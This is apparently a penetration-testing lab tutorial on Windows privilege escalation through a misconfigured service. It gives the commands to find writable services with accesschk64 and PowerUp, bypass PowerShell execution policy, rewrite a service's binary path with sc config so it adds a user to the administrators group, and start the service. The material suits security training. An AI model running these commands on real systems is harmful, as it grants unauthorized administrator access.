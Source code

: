 # Service Binary Path

Service permission binary path exploitation involves locating services where our user has write access to the SERVICE_CHANGE_CONFIG. This access permission means we can overwrite the binary path (BINARY_PATH_NAME) with malicious commands, such as adding our user to the administrators local group.

## Step 1: Detection

### Using accesschk64.exe from `sysinternals`

The following will show all services where our current user has write access

```bash
C:\Users\user> cd Desktop\Tools\Accesschck
C:\Users\user\Desktop\Tools\Accesschck> accesschk64.exe -uwcv Everyone *
```

- `-u` : suppress errors, only return positive findings
- `-w` : only show objects with write access
- `-c` : display the service name
- `-v` : verbose output

![accesschck](images/accesschck.png)

The results show write access to SERVICE_CHANGE_CONFIG for the `daclsvc` which means we can overwrite the binary path.

We can get additional details if we query the `daclsvc` service directly

```bash
C:\Users\user\Desktop\Tools\Accesschck> sc qc daclsvc
```

### Detection with PowerUp.ps1

`Invoke-AllChecks` will also detect `daclsvc` as a vulnerable service

```bash
C:\Users\user\Desktop\Tools\PowerUp> powershell -ep bypass
C:\Users\user\Desktop\Tools\PowerUp> . .\PowerUp.ps1
C:\Users\user\Desktop\Tools\PowerUp> Invoke-AllChecks
```

![daclsvc](images/daclsvc.png)

## Step 2: Exploitation

We can exploit the write access to SERVICE_CHANGE_CONFIG by overwriting the BINARY_PATH_NAME to the command to add a user to the administrators local group

```bash
C:\Users\user\Desktop\Tools\Accesschck> sc config daclsvc binpath= "net localgroup administrators user /add"
```

![binpath](images/binpath.png)

Start the `daclsvc` service

```bash
sc start daclsvc
```

Even though we get a “FAILED” message, if we check the `administrators` local group we should see the `user` account

![exploit](images/exploit.png)
